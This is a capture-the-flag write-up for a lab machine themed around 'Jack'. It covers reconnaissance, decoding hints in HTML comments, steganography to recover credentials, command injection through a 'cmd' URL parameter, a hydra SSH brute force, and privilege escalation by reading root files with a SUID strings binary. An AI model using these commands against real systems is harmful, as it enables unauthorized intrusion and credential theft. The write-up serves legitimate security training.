 ## Target IP: `10.10.183.26`

---

### Local Environment Setup

```bash
export IP=10.10.183.26
export LIP=10.6.24.56
```

---

### Reconnaissance

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
nikto -h http://$IP
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -x php
```

**Open Ports:**

| Port | Service |
| --- | --- |
| 22 | HTTP (Apache 2.4.10) |
| 80 | SSH (OpenSSH 6.7p1 Debian 5) |

Yeah, they flipped the script. Web server on port 22 and SSH on port 80. Firefox lost its mind. Had to go into `about:config` and create a string for `network.security.ports.banned.override`, adding `22`. Classic troll move.

---

### Web Enumeration

- Site is for a toymaker named **Jack** — likely a username.
- Source code of homepage shows:

```html
<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```

- Base64 decode:

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: [REDACTED]
```

So now we’ve got two usernames (`jack`, `johny` maybe) and a password: `[REDACTED]`.

Tried it on `/recovery.php` — nothing useful. Checked source code of that page and saw another encoded string:

```html
<!-- GQ2T...long base32 string... -->
```

- Decoded it: **Base32 → Hex → ROT13** (because they’re assholes). (Looking at this from the future and checking the writeup, if we had done OSINT on Johny Graves we would have found a post about encoding in that order. Keep in mind to dig deeper for next time)
- Final message:

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

- Link redirects to **Stegosauria** Wikipedia page — obvious steganography clue.

---

### Stego and Image Enumeration

- Gobuster reveals: `http://$IP:22/assets`
- Directory has 3 images:
    - `stego.jpg` (dinosaur)
    - `header.jpg`
    - `jackinthebox.jpg`

**Tried stego.jpg:**

```bash
steghide extract -sf stego.jpg
# Used password: [REDACTED]
```

- Extracted `creds.txt`: “you're on the right path, but wrong image!”

**Tried header.jpg:**

```bash
steghide extract -sf header.jpg
# Same password
```

- Extracted `cms.creds`:

```
Username: jackinthebox
Password: [REDACTED]
```

---

### RCE via Web Interface

- Logged into CMS using creds above.
- Page output said:

```
GET me a 'cmd' and I'll run it for you Future-Jack.
```

**Command Injection (RCE):**

This works via query string injection:

```bash
curl "http://$IP:22/index.php?cmd=whoami"
```

- Output: `www-data`
- Full shell not needed. Just inject via `cmd` parameter.

Confirmed command execution with:

```bash
curl "http://$IP:22/index.php?cmd=ls -la /home"
```

Output showed:

- `/home/jack` (owner: jack)
- `/home/jacks_password_list`

---

### SSH Brute Force

- Retrieved `/home/jacks_password_list` using:

```bash
curl "http://$IP:22/index.php?cmd=cat /home/jacks_password_list"
```

- Extracted all the passwords (used page source to get full list).
- Verified username from `/etc/passwd` — it's `jack`.

**Hydra Brute Force:**

```bash
hydra -l jack -P jack_password_list.txt -s 80 ssh://$IP
```

- Found password: `[REDACTED]`

---

### SSH Access and User Flag

```bash
ssh -p 80 jack@10.10.183.26
```

- Inside `/home/jack`: found `user.jpg`
- Downloaded:

```bash
scp -P 80 jack@10.10.183.26:/home/jack/user.jpg .
```

- Image displayed flag:

```
[REDACTED]
```

---

### Privilege Escalation

- No sudo access for jack.
- Kernel exploits failed — no sudo rights to execute anything elevated.

**Checked for SUID binaries:**

```bash
find / -perm -u=s -type f 2>/dev/null
```

Found: `/usr/bin/strings` has SUID bit set (runs as root).

```bash
/usr/bin/strings /root/root.txt
```

- Output:
    
    `[REDACTED]`

